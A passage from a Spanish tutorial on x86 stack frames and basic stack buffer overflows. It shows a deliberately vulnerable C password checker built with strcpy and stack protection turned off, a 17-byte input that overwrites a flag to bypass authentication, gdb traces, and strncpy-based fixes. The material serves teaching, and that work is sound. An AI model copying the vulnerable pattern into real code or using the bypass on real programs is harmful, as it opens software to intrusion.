Para descompilar el $main$ y la funci\'on $foo$ se utiliza el depurador $gdb$. Con la opci\'on $-q$ se especifica que no se muestre un mensaje informativo del depurador. Como segundo par\'ametro se especifica el nombre del binario a descompilar. Acto seguido, dentro de $gdb$ se especifica que el c\'odigo ensamblador que se muestre, se muestre con la sintaxis $intel$\footnote{Para m\'as informaci\'on sobre las diferentes sintaxis del lenguaje ensamblador visitar http://www.ibm.com/developerworks/library/l-gas-nasm.html}.\\
Para descompilar el c\'odigo de la funci\'on $foo$ se utiliza la instrucci\'on $disass$ $foo$.\\

Una vez descompilado el programa, se puede ver que tanto la funci\'on principal $main$ como la funci\'on $foo$ construyen sus respectivos marcos de pila de un modo gen\'erico.\\


Con la instrucci\'on $push$ $ebp$ se est\'a almacenando en la pila la direcci\'on de memoria del marco de pila anterior. En el caso de la funci\'on $main$ lo que se almacena es la direcci\'on inicial del segmento de memoria utilizado para construir los marcos de pila del programa ejecutado.\\
La instrucci\'on $mov$ $ebp, esp$ se encarga de que el registro $ebp$ almacene la direcci\'on que contiene el registro $esp$. De este modo se guarda la direcci\'on actual del \'ultimo dato a\~nadido al segmento de memoria utilizado como pila. Esta direcci\'on de memoria ser\'a la nueva base del marco de pila que se crear\'a para la funci\'on a ejecutar.\\
Despu\'es de esta instrucci\'on, la construcci\'on del marco de pila de cada funci\'on sigue el mismo patr\'on pero es dependiente del c\'odigo fuente de cada funci\'on. \\
La siguiente instrucci\'on de la funci\'on $main$ es $sub$ $esp, 0x14$ y la de la funci\'on $foo$ es $sub$ $esp, 0x10$. Como se puede ver la estructura es la misma. Con las dos instrucciones se reserva espacio en la pila para los diferentes datos con los que se trabajar\'a\footnote{El hecho de reservar espacio en la pila significa modificar el valor del registro $esp$. De este modo queda espacio libre en la memoria para almacenar distintos valores sin que estos se sobreescriban en el pr\'oximo $push$.}. Como se puede ver, aunque la funci\'on $main$ trabaja con una sola variable se reserva m\'as espacio en la pila que cuando se construye el marco de pila de la funci\'on $foo$, que trabaja con dos variables, una variable local y un par\'ametro\footnote{No se ha podido disponer de ning\'un tipo de documentaci\'on que explique el algoritmo utilizado por GCC para reservar espacio en memoria al construir el marco de pila.}. El espacio que se reserva es m\'ultiple de cuatro para solucionar problemas de alineaci\'on en la memoria. As\'i pues, en la funci\'on $main$ se reservan 20 $bytes$ y en la funci\'on $foo$ se reservan 16 $bytes$.\\


Una vez se llega a este punto, el marco de pila ya se ha construido. A partir de este momento se ejecutan las instrucciones relativas al c\'odigo fuente de la funci\'on a ejecutar. En el caso de la funci\'on $main$, la instrucci\'on a ejecutar es $mov$ DWORD PTR $[ebp-0x4], 0x2$, que es el equivalente a $int$ $var1 = 2;$. Esta instrucci\'on almacena el valor num\'erico 2 en la direcci\'on de memoria que contiene el registro $ebp$ menos 4 $bytes$. Como ya se ha comentado, el registro $ebp$ contiene el valor del registro $esp$ antes de que a este se le hubieran restado 20 $bytes$ para hacer la reserva de espacio. Desde el momento en el que el registro $ebp$ almacena el valor del registro $esp$, se utiliza el valor del registro $ebp$ como referencia en el momento de almacenar u obtener los valores de las variables locales o par\'ametros. De este modo se pueden continuar insertando datos en la pila\footnote{Por consiguiente el valor del registro $esp$ se decrementa.} sin que se pierda la referencia de donde est\'an ubicadas las variables en memoria. As\'i pues, debido a que el registro $ebp$ contiene la direcci\'on de la primera posici\'on de memoria libre para la que se ha reservado espacio, y recordando que la pila crece hacia direcciones de memoria inferiores, se le debe restar 4 $bytes$\footnote{En este caso, una variable entera ocupa 4 $bytes$.} a la direcci\'on que contiene $ebp$ para almacenar el valor de la variable $var1$. \\

Las siguientes dos instrucciones de la funci\'on $main$ se encargan de preparar el par\'ametro de la funci\'on $foo$ para que esta pueda obtener el valor de la variable $var1$ de la funci\'on $main$. Debido a que la variable $var1$ de la funci\'on $main$ se pasa por valor y no por referencia, en memoria se debe crear una copia de la variable $var1$ para que si la funci\'on $foo$ modifica su valor, esta modificaci\'on no se vea reflejada en el \'ambito de ejecuci\'on de la funci\'on $main$. Esta labor es la que realizan las instrucciones $mov$ $eax$, DWORD PTR $[ebp-0x4]$ y $mov$ DWORD PTR $[esp]$, $eax$. La primera instrucci\'on se encarga de obtener el valor de la variable $var1$ almacenado en la direcci\'on de memoria contenida en el registro $ebp$ menos 4 $bytes$ y almacenarla en el registro $eax$. La segunda instrucci\'on se encarga de almacenar el valor contenido en el registro $eax$ en la direcci\'on de memoria contenida por el registro $esp$. Como ya se ha comentado, el registro $esp$ contiene la direcci\'on de memoria m\'as baja de la secci\'on de memoria utilizada como pila. De este modo se ha creado una copia de la variable $var1$ de la funci\'on $main$ y se ha posicionado al principio de lo que ser\'a el marco de pila creado para la funci\'on $foo$.\\

La siguiente instrucci\'on - $call$ $0x8048394$ $<foo>$ - se encarga de dirigir el flujo de ejecuci\'on del programa a las instrucciones pertenecientes a la funci\'on $foo$. Sin embargo, antes de realizar la redirecci\'on del flujo de ejecuci\'on, la instrucci\'on $call$ a\~nade a la pila - ejecutando una instrucci\'on $push$ - la direcci\'on de memoria de la siguiente instrucci\'on a ejecutar una vez finalice la funci\'on llamada. En el programa descompilado, la instrucci\'on $call$ a\'nadir\'a a la pila el valor 0x080483c5. Este comportamiento ya se explico en el cap\'itulo $The$ JMP/CALL $Trick$. \\

Las primeras tres instrucciones de la funci\'on $foo$ construyen el marco de pila de la funci\'on tal y como ya se ha explicado anteriormente.\\
La instrucci\'on $mov$ DWORD PTR $[ebp+0x8]$, $0x1$ almacena en la direcci\'on de memoria que contiene el registro $ebp$ m\'as 8 $bytes$ el valor num\'erico 1. El c\'odigo fuente de la funci\'on $foo$ relativo a estas instrucciones es $var1 = 1;$. Debido a la creaci\'on del marco de pila de la funci\'on $foo$, el registro $ebp$ contiene el valor del registro $esp$ antes de que se reserve espacio para las variables locales. Como se ha comentado anteriormente, antes de saltar al c\'odigo perteneciente a la funci\'on $foo$, la funci\'on $main$ ha ubicado el valor de su variable $var1$ en la direcci\'on de memoria contenida en el registro $esp$ en ese momento. Despu\'es de realizar dicha acci\'on, se ha saltado al c\'odigo de la funci\'on $foo$ y las instrucciones que se han ejecutado han sido $push ebp$ y $mov ebp, esp$. La instrucci\'on $push ebp$ permite almacenar en la pila la direcci\'on inicial del marco de pila anterior, y, a la vez, debido a que en una arquitectura de 32 $bits$ una direcci\'on de memoria ocupa 4 $bytes$, el contenido del registro $esp$ se ha visto decrementado en 4.\\
De este modo, para asignarle un valor al par\'ametro $var1$ de la funci\'on $foo$ se deber\'ia acceder a la direcci\'on de memoria almacenada en el registro $ebp$ menos 4 $bytes$ de la direcci\'on de memoria a\~nadida a la pila por la instrucci\'on $call$, menos 4 $bytes$ de la direcci\'on de memoria almacenada en la pila por la instrucci\'on $push ebp$. Por esta raz\'on, en la instrucci\'on $mov$ DWORD PTR $[ebp+0x8]$, $0x1$ se le suman 8 $bytes$ a la direcci\'on que contiene el registro $ebp$. Gracias a este calculo es posible asignarle el valor num\'erico 1 a la copia de la variable $var1$ de la funci\'on $main$ que se ha creado para poder pasarla como par\'ametro .\\

Tal y como sucede en la funci\'on $main$, la instrucci\'on $mov$ DWORD PTR $[ebp-0x4], 0x2$ se encarga de almacenar el valor num\'erico 2 en el espacio reservado para las variable locales en el marco de pila de la funci\'on $foo$.\\
A continuaci\'on, tanto en la funci\'on $main$ como en la funci\'on $foo$ las \'ultimas tres instrucciones son casi id\'enticas. En la funci\'on $foo$ se accede al valor de la variable local $var2$ y se almacena en el registro $eax$. Por otro lado, en la funci\'on $main$ en el registro $eax$ se almacena el valor num\'erico 0. Estos dos valores son los valores de retorno, y como se puede deducir, el compilador GCC acostumbra a almacenar los valores de retorno en el registro $eax$.\\

Por \'ultimo, tanto la funci\'on $main$ como la funci\'on $foo$ ejecutan las instrucciones $leave$ y $ret$.\\
La instrucci\'on $leave$ se encarga de destruir el marco de pila creado para cada funci\'on. El modo de destruir un marco de pila es asignarle al registro $esp$ el valor que conten\'ia antes de realizar la reserva de espacio para las variables locales de una funci\'on. Aunque los valores de las variables con las que trabaja una funci\'on queden en memoria, cuando el valor del registro $esp$ es decrementado hasta su valor inicial antes de la construcci\'on del marco de pila, se considera que el marco de pila es destruido ya que se pierde la referencia de donde est\'an los datos y, cuando una nueva funci\'on del programa sea ejecutada, los valores de la funci\'on antigua ser\'an sobreescritos.\\
En este momento, en el marco de pila de una funci\'on s\'olo queda la direcci\'on de memoria a\~nadida a la pila por la instrucci\'on $call$. Gracias a esta direcci\'on de memoria, el flujo de ejecuci\'on del programa puede retornar a la siguiente instrucci\'on despu\'es del $call$. El registro que se encarga de almacenar la direcci\'on de memoria donde est\'a ubicada la siguiente instrucci\'on a ejecutar es el registro llamado $eip$\footnote{$Extended$ $Instruction$ $Pointer$}. La instrucci\'on $ret$ se encarga de almacenar la direcci\'on de memoria a\~nadida por la instrucci\'on $call$ en el registro $eip$. El equivalente a esta operaci\'on ser\'ia la instrucci\'on $pop$ $eip$, con lo que el valor de 4 $bytes$ al que apunta el registro $esp$ se almacenar\'ia en el registro $eip$ y a la direcci\'on de memoria almacenada por el registro $esp$ se le restar\'ia un 4.\\
Una vez se ha llegado a este punto, el marco de pila de la funci\'on ha sido destruido y la siguiente instrucci\'on a ejecutar ser\'a la que segu\'ia a la instrucci\'on $call$ que ha invocado a la funci\'on.\\

Una vez analizado c\'omo se construye un marco de pila real, se deben resaltar tres aspectos muy importantes.\\
El primero de ellos es que el algoritmo de reserva de espacio del marco de pila parece ser que no est\'a publicado y por tanto no se puede saber exactamente la ubicaci\'on de los datos a menos que descompiles el ejecutable y lo analices profundamente. En programas peque\~nos este proceso puede parecer simple, sin embargo, en aplicaciones de gran tama\~no el proceso puede ser bastante arduo.\\
\\
El segundo aspecto es que cuando el an\'alisis est\'atico de un ejecutable se hace complicado, hay aplicaciones que permiten depurar los programas de manera din\'amica. Gracias a este tipo de herramientas se puede descubrir qu\'e operaciones internas ejecutan las instrucciones como $call$, $ret$ o $leave$. Aunque en sistemas $Windows$ existen m\'ultiples herramientas v\'alidas para esta tarea, en sistemas $Linux$ este tipo de herramientas escasean. Una muy buena opci\'on es una aplicaci\'on llamada EDB\footnote{La herramienta $Evan$'s $Debugger$ se puede descargar de http://www.codef00.com/projects.php}.\\
\\
El tercer y m\'as importante aspecto es que cuando se construye el marco de pila se inserta un dato que permite modificar el flujo de ejecuci\'on del ejecutable. Este dato en cuesti\'on es el valor del registro $eip$ que inserta en la pila la instrucci\'on $call$. Este tema se tratar\'a en los pr\'oximos cap\'itulos.

\subsection{Desbordamiento b\'asico de b\'ufers en la pila}

Una vez establecidos los conceptos b\'asicos sobre la construcci\'on de los marcos de pila, se mostrar\'a un ejemplo b\'asico de c\'omo se podr\'ia aprovechar un error de programaci\'on. A partir de un c\'odigo muy b\'asico se mostrar\'a c\'omo es posible que un peque\~no error de programaci\'on desencadene en el $bypass$ del sistema de autenticaci\'on del programa. El c\'odigo fuente vulnerable es el siguiente.\\

\lstset{language=C++,caption=C\'odigo fuente passwordProtected.c}
\begin{lstlisting}
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int checkPassword(char * cpPassword) {
        int iSuccess = 0;
        char caPassword[16];

        strcpy(caPassword, cpPassword);

        if ( strcmp(caPassword, "validPassword") == 0) iSuccess = 1;

        return iSuccess;
}

int main(int argc, char * argv[]) {
        if (argc != 2) {
                printf("[-] Usage: %s <password>\n", argv[0]);
                exit(0);
        }

        if ( checkPassword(argv[1]) ) {
                printf("\n++++++++++++++++++++++++\n");
                printf("\n|    ACCESS GRANTED    |\n");
                printf("\n++++++++++++++++++++++++\n\n");
        } else {
                printf("\n+++++++++++++++++++++++\n");
                printf("\n|    ACCESS DENIED    |\n");
                printf("\n+++++++++++++++++++++++\n\n");
        }

        return 0;
}
\end{lstlisting}

El c\'odigo fuente anterior permite acceder a ciertos contenidos del programa dependiendo del argumento que se le pase al ejecutable.\\
Si un atacante no dispusiera del c\'odigo fuente y no pudiera aplicar ingenier\'ia inversa sobre el ejecutable, no le quedar\'ia m\'as remedio que probar todas y cada una de las posibles combinaciones alfanum\'ericas hasta dar con la combinaci\'on correcta. Si el programador ha elegido una clave robusta el proceso de $brute forcing$\footnote{Se conoce como $brute$ $forcing$ el hecho de probar todas las combinaciones posibles permitidas por el vector de entrada de un ejecutable.} puede ser muy extenso. El atacante podr\'ia pasar a\~nos probando combinaciones de entrada y no dar con la combinaci\'on correcta.\\
\\
A continuaci\'on se mostrar\'a un m\'etodo por el cual un atacante podr\'ia acceder a la zona protegida del c\'odigo fuente sin la necesidad de conocer siquiera el argumento correcto que se le debe pasar al programa.

\begin{listing}[style=consola, numbers=none, caption=Stack overflow en el ejecutable passwordProtected]	
newlog@Beleriand:~/Documentos/Shellcoding/Codigos/StackOverflows/BasicExample$ gcc passwordProtected.c -o passwordProtected -fno-stack-protector
newlog@Beleriand:~/Documentos/Shellcoding/Codigos/StackOverflows/BasicExample$ ./passwordProtected AAAAA

+++++++++++++++++++++++

|    ACCESS DENIED    |

+++++++++++++++++++++++

newlog@Beleriand:~/Documentos/Shellcoding/Codigos/StackOverflows/BasicExample$ ./passwordProtected AAAAAAAAAA

+++++++++++++++++++++++

|    ACCESS DENIED    |

+++++++++++++++++++++++

newlog@Beleriand:~/Documentos/Shellcoding/Codigos/StackOverflows/BasicExample$ ./passwordProtected AAAAAAAAAAAAAAA

+++++++++++++++++++++++

|    ACCESS DENIED    |

+++++++++++++++++++++++

newlog@Beleriand:~/Documentos/Shellcoding/Codigos/StackOverflows/BasicExample$ ./passwordProtected AAAAAAAAAAAAAAAAA

++++++++++++++++++++++++

|    ACCESS GRANTED    |

++++++++++++++++++++++++

newlog@Beleriand:~/Documentos/Shellcoding/Codigos/StackOverflows/BasicExample$ 
\end{listing}

Como se puede ver, se ha accedido a la secci\'on de c\'odigo restringida despu\'es de muy pocos intentos y sin tener conocimiento de la clave correcta. A continuaci\'on se ilustrar\'a el motivo por el cual esto ha sucedido.\\

Primero de todo se debe explicar que la opci\'on $-fno-stack-protector$ desactiva una protecci\'on que a\~nade el compilador $gcc$ para evitar los desbordamientos de b\'ufers en la pila. Cabe destacar que dicha protecci\'on se puede vulnerar, sin embargo, aprender a vulnerar esta protecci\'on no es el prop\'osito de este documento.\\
\\
Analizando el c\'odigo fuente de la aplicaci\'on, se puede deducir que el problema est\'a en la instrucci\'on condicional $if$. De la condici\'on que evalua la instrucci\'on $if$ depende qu\'e parte de c\'odigo se ejecutar\'a. La condici\'on que procesa la instrucci\'on $if$ viene definida por la funci\'on $checkPassword$. Como par\'ametro, esta funci\'on recibe el argumento que introduce el usuario al ejecutar el programa. Acto seguido, este argumento es almacenado en una variable local de tipo $char$ y de 16 $bytes$. A continuaci\'on, se comprueba si esta variable local es igual a la contrase\~na elegida por el programador. Si es as\'i, en otra variable local de la funci\'on se almacena el valor num\'erico 1, en caso contrario, esta variable local mantiene su valor inicial, que es 0. Por \'ultimo, el valor de esta \'ultima variable local se devuelve a la funci\'on $main$.\\
\\
Despu\'es de este simple an\'alisis, se puede concluir que el resultado de la instrucci\'on condicional $if$ depende del valor de la variable local $iSuccess$. Sin embargo, parece ser que el programa no funciona como deber\'ia. Para entender cu\'al es el motivo de que el programa no se ejecute como deber\'ia se deben comentar los dos errores que se han cometido al desarrollar esta aplicaci\'on. \\

El primero de ellos y el que puede pasar desapercibido por los programadores con m\'as experiencia es que la instrucci\'on $if$, tal y como est\'a definida en el c\'odigo fuente, s\'olo comprueba que el valor devuelto por la funci\'on sea igual a 0 o diferente a 0. A diferencia de lo que podr\'ia se intuir, la instrucci\'on $if$ no comprueba que el valor devuelto sea un 1 o un 0, sino que comprueba si el valor es igual o diferente a 0. Para mejorar el comportamiento de la instrucci\'on $if$ se deber\'ia modificar el bloque de c\'odigo:

\lstset{language=C++,caption=C\'odigo amb\'iguo,label=fig:codigoAmbiguo}
\begin{lstlisting}
if ( checkPassword(argv[1]) ) {
	printf("\n++++++++++++++++++++++++\n");
	printf("\n|    ACCESS GRANTED    |\n");
	printf("\n++++++++++++++++++++++++\n\n");
} else {
	printf("\n+++++++++++++++++++++++\n");
	printf("\n|    ACCESS DENIED    |\n");
	printf("\n+++++++++++++++++++++++\n\n");
}
\end{lstlisting}

Por:

\lstset{language=C++,caption=C\'odigo espec\'ifico,label=fig:codigoEspecifico}
\begin{lstlisting}
if ( checkPassword(argv[1]) == 1 ) {
	printf("\n++++++++++++++++++++++++\n");
	printf("\n|    ACCESS GRANTED    |\n");
	printf("\n++++++++++++++++++++++++\n\n");
} else if ( checkPassword(argv[1]) == 0 ) {
	printf("\n+++++++++++++++++++++++\n");
	printf("\n|    ACCESS DENIED    |\n");
	printf("\n+++++++++++++++++++++++\n\n");
}
\end{lstlisting}    

Esta modificaci\'on hace el c\'odigo mucho m\'as espec\'ifico, aunque \'este continua siendo vulnerable.\\
\\ 
El segundo error que se ha cometido al programar la aplicaci\'on y el que hace que el ejecutable sea vulnerable es el mal uso de la funci\'on $strcpy()$. Tal y como apunta la p\'agina de manual referente a la funci\'on $strcpy()$\footnote{En sistemas $Unix$ se puede acceder a las p\'aginas de manual ejecutando el comando $man$ $<$param$>$. Por ejemplo, $man$ $strcpy$.}, esta funci\'on se encarga de copiar los datos ubicados en la direcci\'on de memoria donde apunta su segundo par\'ametro hasta encontrar un $byte$ nulo, en la direcci\'on de memoria que contiene su primer par\'ametro.\\
El principal problema de la funci\'on $strcpy()$ es que no comprueba que los datos del segundo par\'ametro ocupen menos que los datos que puede almacenar el primer par\'ametro.\\
\\
Qu\'e pasar\'ia si el segundo par\'ametro fuera una cadena de 20 $bytes$ y el primer par\'ametro fuera una cadena de 16 $bytes$? Pues que la funci\'on $strcpy()$ copiar\'ia los 20 $bytes$ del segundo par\'ametro - hasta encontrar un $byte$ nulo - en la direcci\'on de memoria donde apuntara el primer par\'ametro. Tal y como se ha demostrado en el apartado anterior, un compilador reserva espacio contiguo para las variables con las que trabaja un programa, esto significa que para una variable que ocupa 16 $bytes$, el compilador, te\'oricamente, le reservar\'a 16 $bytes$ de memoria y las dem\'as variables o datos de control se ubicar\'an en direcciones de memoria pr\'oximas a esta variable. As\'i pues, si a una variable de 16 $bytes$ se le asigna el valor de una variable de 20 $bytes$, en el mejor de los casos, s\'olo se sobreescribir\'an otras variables o se sobreescribir\'an direcciones de memoria relativas a otro ejecutable con lo que el ejecutable vulnerable dejar\'a de funcionar immediatamente. Sin embargo, en el peor de los casos se podr\'an sobreescribir datos de control introducidos por el compilador. Este \'ultimo caso es el m\'as peligroso y el que puede llevar a la ejecuci\'on de c\'odigo arbitrario\footnote{La expresi\'on de ''ejecuci\'on de c\'odigo arbitrario'' acostumbra a hacer referencia a la ejecuci\'on de cualquier c\'odigo fuente elegido por un atacante.} por parte de un atacante. \\

Para corregir el problema que introduce la funci\'on $strcpy$ se deben utilizar otras funciones que hagan un control de los datos copiados entre variables o que el programador controle los tama\~nos de las variables para asegurar que la copia de datos es posible. La funci\'on $strncpy$ es una versi\'on mejorada de la funci\'on $strcpy$ y, como par\'ametros, a parte de las dos variables para hacer la c\'opia de datos, recibe tambi\'en un entero que especifica el n\'umero total de $bytes$ que se van a copiar de una variable a otra. As\'i pues, basta con especificar un valor entero que no supere la capacidad del primer par\'ametro, teniendo en cuenta que la misma funci\'on $strncpy$ no almacena un $byte$ nulo como \'ultimo byte de la cadena destino. Si este aspecto no se controla o no se tiene en cuenta, el b\'ufer al que se han copiado los datos podr\'ia dar problemas en operaciones posteriores.\bigskip

Para ver de forma din\'amica qu\'e es lo que ha pasado internamente al ejecutar el programa, se utilizar\'a el depurador $gdb$ tal y como se ha venido haciendo hasta el momento.\\
Primero de todo se mostrar\'a el valor de las variables pas\'andole al ejecutable un argumento de 16 $bytes$. \\

\begin{listing}[style=consola, numbers=none, caption=An\'alisis con una entrada de 17 $bytes$]	
newlog@Beleriand:~/Documentos/Shellcoding/Codigos/StackOverflows/BasicExample$ gdb -q ./passwordProtected
Leyendo símbolos desde /home/newlog/Documentos/Shellcoding/Codigos/StackOverflows/BasicExample/passwordProtected...hecho.
(gdb) b checkPassword
Punto de interrupción 1 at 0x804848a: file passwordProtected.c, line 6.
(gdb) run AAAAAAAAAAAAAAAA
Starting program: /home/newlog/Documentos/Shellcoding/Codigos/StackOverflows/BasicExample/passwordProtected AAAAAAAAAAAAAAAA

Breakpoint 1, checkPassword (cpPassword=0xbffff58e 'A' <repetidos 16 veces>) at passwordProtected.c:6
6		int iSuccess = 0;
(gdb) x &iSuccess
0xbffff2ec:	0x08048589
(gdb) n
9		strcpy(caPassword, cpPassword);
(gdb) x/5x caPassword
0xbffff2dc:	0x08048340	0x0011eac0	0x08049ff4	0xbffff318
0xbffff2ec:	0x00000000
(gdb) print 0xbffff2ec - 0xbffff2dc
$1 = 16
(gdb) n
11		if ( strcmp(caPassword, "validPassword") == 0) iSuccess = 1;
(gdb) x/5x caPassword
0xbffff2dc:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff2ec:	0x00000000
(gdb) n
13		return iSuccess;
(gdb) x &iSuccess
0xbffff2ec:	0x00000000
(gdb) c
Continuando.

+++++++++++++++++++++++

|    ACCESS DENIED    |

+++++++++++++++++++++++


Program exited normally.
(gdb) quit
\end{listing}

Como se puede ver, lo primero que se hace es establecer un punto de ruptura al principio de la funci\'ion $checkPassword$. Una vez se lance el programa, su ejecuci\'on se detendr\'a al principio de la funci\'on en cuesti\'on. Acto seguido, con la instrucci\'on $x$ \&$iSuccess$, se analiza cual es el contenido de la direcci\'on de memoria donde se almacenan los valores de la variable $iSuccess$. El contenido de la variable $iSuccess$ se almacena en la direcci\'on de memoria 0xbffff2ec. Por el momento su contenido es aleatorio. A continuaci\'on, se analiza el contenido de la cadena $caPassword$ con la instrucci\'on $x/5x$ $caPassword$. El valor $5x$ especifica que se muestren los valores de 5 conjuntos de 32 $bits$ contiguos a la direcci\'on de memoria 0xbffff2dc, que es la direcci\'on de memoria inicial de la cadena representada por la variable $caPassword$. Como se muestra a continuaci\'on, la ubicaci\'on de la variable $caPassword$ y la variable $iSuccess$ dista en 16 $bytes$. Es por este hecho por el que al escribir 16 $bytes$ en la cadena $caPassword$ no se sobreescribe la variable $iSucces$.  Por esta raz\'on, al volver de la funci\'on $checkPassword$, el valor de la variable $iSuccess$ es correcto y el programa no muestra la parte de c\'odigo protegida.\\
\\
Sin embargo, esta situaci\'on cambiar\'a cuando como par\'ametro se pase una cadena de 17 $bytes$. A continuaci\'on se muestra un an\'alisis de dicha situaci\'on: \\

\begin{listing}[style=consola, numbers=none, caption=An\'alisis con una entrada de 17 $bytes$]	
newlog@Beleriand:~/Documentos/Shellcoding/Codigos/StackOverflows/BasicExample$ gdb -q passwordProtected
Leyendo símbolos desde /home/newlog/Documentos/Shellcoding/Codigos/StackOverflows/BasicExample/passwordProtected...hecho.
(gdb) b checkPassword
Punto de interrupción 1 at 0x804848a: file passwordProtected.c, line 6.
(gdb) run AAAAAAAAAAAAAAAAA
Starting program: /home/newlog/Documentos/Shellcoding/Codigos/StackOverflows/BasicExample/passwordProtected AAAAAAAAAAAAAAAAA

Breakpoint 1, checkPassword (cpPassword=0xbffff58e 'A' <repetidos 17 veces>)
    at passwordProtected.c:6
6		int iSuccess = 0;
(gdb) x &iSuccess
0xbffff2ec:	0x08048589
(gdb) n
9		strcpy(caPassword, cpPassword);
(gdb) x/5x caPassword
0xbffff2dc:	0x08048340	0x0011eac0	0x08049ff4	0xbffff318
0xbffff2ec:	0x00000000
(gdb) print 0xbffff2ec - 0xbffff2dc
$1 = 16
(gdb) n
11		if ( strcmp(caPassword, "validPassword") == 0) iSuccess = 1;
(gdb) x/5x caPassword
0xbffff2dc:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff2ec:	0x00000041
(gdb) n
13		return iSuccess;
(gdb) x &iSuccess
0xbffff2ec:	0x00000041
(gdb) c
Continuando.

++++++++++++++++++++++++

|    ACCESS GRANTED    |

++++++++++++++++++++++++


Program exited normally.
(gdb) quit
\end{listing}

Esta vez se ejecutan las mismas instrucciones en $gdb$ y lo \'unico que cambia es el n\'umero de 'A's pasadas como argumento. Se han introducido 17 'A's en vez de 16. Esto significa que como par\'ametro se pasa una cadena de 17 $bytes$ y, como ya se ha comentado, la variable $caPassword$ s\'olo tiene capacidad para almacenar 16 $bytes$. De nuevo, la ubicaci\'on de las variables $caPassword$ y $iSuccess$ siguen separadas por 16 $bytes$. Es por esta raz\'on por la que despu\'es de ejecutar la funci\'on $strcpy$ la variable $caPassword$ contiene 16 'A's. Sin embargo, el $byte$ 17 de la cadena pasada como par\'ametro se ha almacenado en la direcci\'on de memoria cont\'igua a la 'A' n\'umero 16. Casualmente, o quiz\'a no tan casualmente, la direcci\'on de memoria contigua a la 'A' n\'umero 16 es la posici\'on de memoria donde se almacena el valor de la variable $iSuccess$. Por esta raz\'on, cuando se analiza la variable $iSuccess$ en $gdb$ con la instrucci\'on $x$, se muestra que su valor es 0x00000041. \\
Como se puede ver, la 'A' n\'umero 17 ha sobreescrito el valor que la variable $iSuccess$ con lo que al retornar de la funci\'on su valor no ser\'a 0 y se mostrar\'a la zona de c\'odigo restringida aunque no se haya escrito la contrase\~na correcta.\\
\\
\begin{itemize}
	\item \textbf{C\'omo solucionar esta vulnerabilidad?}
\end{itemize}

En un principio se tienen dos opciones. La primera es modificar la funci\'on que hace que el c\'odigo sea vulnerable - en este caso es $strcpy$ - por una funci\'on que solucione el problema. Y la segunda opci\'on es modificar el c\'odigo que se ve afectado por la vulnerabilidad. Un paralelismo a esta situaci\'on ser\'ia un medicamento que cura el origen de una enfermedad y un medicamento que cura los efectos de la enfermedad.\\
\\
Si se solucionara la vulnerabilidad v\'ia la primera opci\'on se deber\'ia modificar la instrucci\'on $strcpy$ por una instrucci\'on que controlara el n\'umero de $bytes$ copiados.\\
As\'i pues se deber\'ia substituir la instrucci\'on:

\lstset{language=C++,caption=C\'odigo vulnerable,label=fig:codigoVulnerable}
\begin{lstlisting}
strcpy(caPassword, cpPassword);
\end{lstlisting} 

Por:

\lstset{language=C++,caption=C\'odigo corregida,label=fig:funcionCorregida}
\begin{lstlisting}
strncpy(caPassword, cpPassword, 16);
\end{lstlisting} 

Gracias a esta substituci\'on, en la variable $caPassword$ s\'olo se almacenar\'ian 16 $bytes$. Sin embargo, si la variable $cpPassword$ contuviera una cadena de m\'as de 16 $bytes$, la cadena $caPassword$ no tendr\'ia un terminador de cadena y esto podr\'ia provocar otros problemas. Para solucionar este tema se podr\'ia utilizar el siguiente c\'odigo:

\lstset{language=C++,caption=C\'odigo mejorado,label=fig:codigoMejorado}
\begin{lstlisting}
strncpy(caPassword, cpPassword, 16);
caPassword[sizeof(caPassword) - 1] = '\0';
\end{lstlisting} 

De este modo en la variable $caPassword$ s\'olo se almacenar\'ian 16 $bytes$ pertenecientes a la variable $cpPassword$\footnote{Cabe destacar que para optimizar el c\'odigo fuente se podr\'ian copiar s\'olo 15 $bytes$ con la instrucci\'on $strncpy$ en vez de 16.}. Despu\'es, en el \'ultimo $byte$ perteneciente a la variable $caPassword$ se almacena un $byte$ nulo, que ser\'a el terminador de la cadena. En este caso, la funci\'on $sizeof$ devuelve el tama\~no de la variable $caPassword$, que es 16. Sin embargo, para acceder a la \'ultima posici\'on de la cadena $caPassword$ se deber\'ia acceder a la posici\'on 15 ya que los $bytes$ de la variable $caPassword$ van del 0 al 15.\\
\\
Como se puede ver a continuaci\'on, el c\'odigo modificado es totalmente funcional aun cuando se le pasa un par\'ametro de 17 $bytes$. Tambi\'en se pueden apreciar todos los aspectos comentados en el par\'agrafo anterior.

\begin{listing}[style=consola, numbers=none, caption=An\'alisis del c\'odigo fuente corregido]	
newlog@Beleriand:~/Documentos/Shellcoding/Codigos/StackOverflows/BasicExample$ gcc -g passwordProtectedCorrected.c -o passwordProtectedCorrected
newlog@Beleriand:~/Documentos/Shellcoding/Codigos/StackOverflows/BasicExample$ gdb -q passwordProtectedCorrected
Leyendo símbolos desde /home/newlog/Documentos/Shellcoding/Codigos/StackOverflows/BasicExample/passwordProtectedCorrected...hecho.
(gdb) b checkPassword
Punto de interrupción 1 at 0x80484e0: file passwordProtectedCorrected.c, line 5.
(gdb) run AAAAAAAAAAAAAAAAA
Starting program: /home/newlog/Documentos/Shellcoding/Codigos/StackOverflows/BasicExample/passwordProtectedCorrected AAAAAAAAAAAAAAAAA

Breakpoint 1, checkPassword (
    cpPassword=0xbffff585 'A' <repetidos 17 veces>)
    at passwordProtectedCorrected.c:5
5	int checkPassword(char * cpPassword) {
(gdb) n
6		int iSuccess = 0;
(gdb) n
9		strncpy(caPassword, cpPassword, 16);
(gdb) n
10		int length = sizeof(caPassword) - 1;
(gdb) x/4x caPassword
0xbffff2cc:	0x41414141	0x41414141	0x41414141	0x41414141
(gdb) n
11		caPassword[length] = '\0';
(gdb) x &length
0xbffff2c4:	0x0000000f
(gdb) n
13		if ( strcmp(caPassword, "validPassword") == 0) iSuccess = 1;
(gdb) x/4x caPassword
0xbffff2cc:	0x41414141	0x41414141	0x41414141	0x00414141
(gdb) c
Continuando.

+++++++++++++++++++++++

|    ACCESS DENIED    |

+++++++++++++++++++++++


Program exited normally.
(gdb) quit
\end{listing}

Por otro lado, como se podr\'ia implementar la segunda opci\'on para corregir esta vulnerabilidad? Anteriormente se ha comentado que la idea de implementar la segunda opci\'on se basa en corregir los ''efectos'' de la vulnerabilidad, en vez de corregir la vulnerabilidad. En este caso el ''efecto'' de la vulnerabilidad es modificar el valor de la variable $iSuccess$ cuando se produce el desbordamiento del b\'ufer $caPassword$. \\
